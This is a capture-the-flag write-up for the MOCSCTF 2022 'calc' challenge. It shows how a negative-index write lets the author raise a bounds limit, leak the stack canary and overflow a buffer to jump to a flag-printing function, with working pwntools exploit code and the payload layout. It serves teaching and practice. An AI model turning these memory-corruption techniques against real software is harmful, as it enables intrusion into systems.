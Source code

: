 # mocsctf2022.mocsctf.com - calc

Origin challenge link: https://mocsctf2022.mocsctf.com/challenges

You can also download challenge in my repo: [calc.zip](calc.zip)

There is 1 file in zip:

- calc

Download the file and let's start!

# 1. Find bug

First, we use `file` to check for basic information:

```
$ file calc

calc: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ea3703cc9b093c54402a5461acb0d88249d219f0, for GNU/Linux 3.2.0, not stripped
```

Wonderful! This is a 64-bit file without being stripped. This will be helpful when we debug our program. Next, we will use `checksec` to check all the security of file:

```
$ checksec calc
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

When can see that there is canary on stack and no PIE. That's all we can get for checksec. Finally, we will use ghidra to decompile the challenge file to get the flow.

Looking at all the functions, we can see that there is an interesting function named `calc_root`:

![calc_root.png](images/calc_root.png)

It will read and print out the flag for us. Very interesting! And another essential function is main().

The first thing in main() we can see is that with the first option `Set Numbers`, it get the position **without checking if it's a negative number or not** and compare with `local_d8` which containing `20`:

![main_local_d8.png](images/main_local_d8.png)

![main_input_pos.png](images/main_input_pos.png)

Then it take this pos variable, add `local_c8` and scanf():

![main_input_number.png](images/main_input_number.png)

In GDB with index 0 and 1, it will be like this:

![set_number_in_GDB.png](images/set_number_in_GDB.png)

But we can set number within (-oo ; 20] so that's the first bug.

The next option is `Calculate`, it get our input, then sum all data on stack from index 0 to our input and print out the final value:

![Calculate.png](images/Calculate.png)

So with index 1, it will work like this:

![calculate_result.png](images/calculate_result.png)

That's the data on stack:

![calculate_result_in_GDB.png](images/calculate_result_in_GDB.png)

Nothing we can get but just know how to leak stack data. 

And the last option is `Finish`, which is defined with just 24 char space:

![finish_var.png](images/finish_var.png)

But we can input upto 0x100 byte:

![finish_input.png](images/finish_input.png)

So that means **Buffer Overflow** and we have a `ret` right after our input. But there is canary on stack and how can we deal with it? We will try to leak it as the next part describes.

That's all we found. Let's move on next part: Brainstorming!

# 2. Brainstorming

We know that with the first option, we can change all the data, on stack, we want. Luckily, we can see that `local_c8`, which we `input the number` of option 1, is after `local_d8`, which contain 20 (0x14) to check if our index is larger than 20 or not

![order_of_var.png](images/order_of_var.png)

So we will change `local_d8` from 20 to a larger number so that when we get value on stack, we can get more than 20 index. Hence, we leak the canary value. And with **buffer overflow** in the `Finish` option, we control the rip to make it print out the flag.

- Summary:
  1. Leak stack canary
  2. Get flag

# 3. Exploit

Before we start our exploitation, I write those function to make our exploitation easier

<details>
<summary>Code snippet</summary>
<p>

```
def setnumber(pos, number):
	p.sendlineafter(b'choice:', b'1')
	p.sendlineafter(b'Please input the pos:', '{}'.format(pos).encode())
	p.sendlineafter(b'Please input the number:', '{}'.format(number).encode())

def calculate(many):
	p.sendlineafter(b'choice:', b'2')
	p.sendlineafter(b'How many?\n', '{}'.format(many).encode())
	# Result receive outside

def finish(data):
	p.sendlineafter(b'choice:', b'3')
	p.sendafter(b'What\'s your name?', data)
```

</p>
</details>

And now, we start!

### Stage 1: Leak stack canary

First, we will change the maximum of index from 20 to 0x100 with the `Set Number` option. Having a look in GDB, we know that the index which point to max index variable is `-2`:

![max_index_in_GDB.png](images/max_index_in_GDB.png)

So we change that with the following code:

```
setnumber(-2, 0x100)
```

Now the maximum index is 0x100, that's enough for us to exploit. Then, leaking canary will be the easy part, not easiest, because we know that `Calculate` will sum all the data on stack from index 0 to index of our input. For an easier leak, I will set all the data previous canary to 0x0 so when it `Calculate`, it just print our the stack canary.

So first, we set all the data before canary to 0x0 with the following code:

```
for i in range(23):
	setnumber(i, 0)
```

And now, we just leak the canary:

```
calculate(24)
data = int(p.recvline()[:-1].split(b':')[1])
print(data)
```

Running all of them should get us the canary:

![negative_canary.png](images/negative_canary.png)

Run several time and we get the negative canary value. Why is it negative? I thought the stack just like `0xffffffff`, there is no way it can be negative. The answer is it can be negative because:

![print_result.png](images/print_result.png)

The output format is `%lld`, which from `0` to `0x7fffffffffffffff` will be positive number, but from `0x8000000000000000` to `0xffffffffffffffff` will be negative number. So to deal with that leak, we will use [struct](https://docs.python.org/3/library/struct.html) (a module in python) to convert from that long int into hex:

```
canary = u64(struct.pack('<q', data))

# Just for printing the leak canary
log.success('Leak canary: ' + hex(canary))
```

Running the script several time and we get the negative leaked canary in hex:

![canary_leaked.png](images/canary_leaked.png)

Compared with canary in GDB:

![canary_leaked_in_GDB.png](images/canary_leaked_in_GDB.png)

And that's correct! We got the stack canary leaked! Let's move on final stage: Get flag!

### Stage 2: Get flag

With canary and **Buffer Overflow**, we now have the control of rip. Let's check where is our input placed in the last option with payload like this:

```
finish(b'A'*8)
```

![finish_input_placed.png](images/finish_input_placed.png)

Our new stack canary is `0xa2c6a51796813300` (Cause I re-run it :D). We can see that our input is just near the canary. Remember this order: `canary -> rbp -> rip` so that our final payload will be like this:

```
payload = b''
payload += b'A'*0x18                      # Pad to canary
payload += p64(canary)                    # Canary
payload += b'B'*0x8                       # Fake rbp
payload += p64(exe.sym['calc_root'])      # rip
finish(payload)
```

Running that script and we get the flag. 

Full code: [solve.py](solve.py)

# 4. Get flag

![get_flag.png](images/get_flag.png)

Flag is `MOCSCTF{3bbbbe8e-18c6-4da3-8bf9-fe38f154426c}`